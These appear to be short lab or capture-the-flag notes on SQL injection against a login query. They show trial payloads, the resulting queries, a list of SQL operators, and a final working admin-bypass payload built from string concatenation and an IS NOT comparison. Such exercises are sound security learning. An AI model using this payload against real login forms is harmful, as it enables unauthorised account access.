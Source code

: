 # SQL Injection

this payload

```
' || ''-'
```

got this output

```
SELECT username, password FROM users WHERE username='' || ''-'' AND password='' || ''-''
```

SELECT username, password FROM users WHERE username=''||'a'||'dmin' AND password='qd'
SELECT username, password FROM users WHERE username='a'||'dmin' AND password='qd'

concat not working for some reason

so this works for the admin part

```sql
SELECT username, password FROM users WHERE username='adm'||'in' AND password='arast' IS NOT 'a' IS 'a'
```

# Available SQL Operators

```
+ addition
- subtraction
% modulus
BETWEEN
EXISTS
IN
NOT IN
LIKE
GLOB
NOT
OR
IS NULL
IS
IS NOT
||
UNIQUE
| bitwise or
& bitwise and
```

# Payload

username:`ad'||'min`
password:`a' IS NOT 'b`
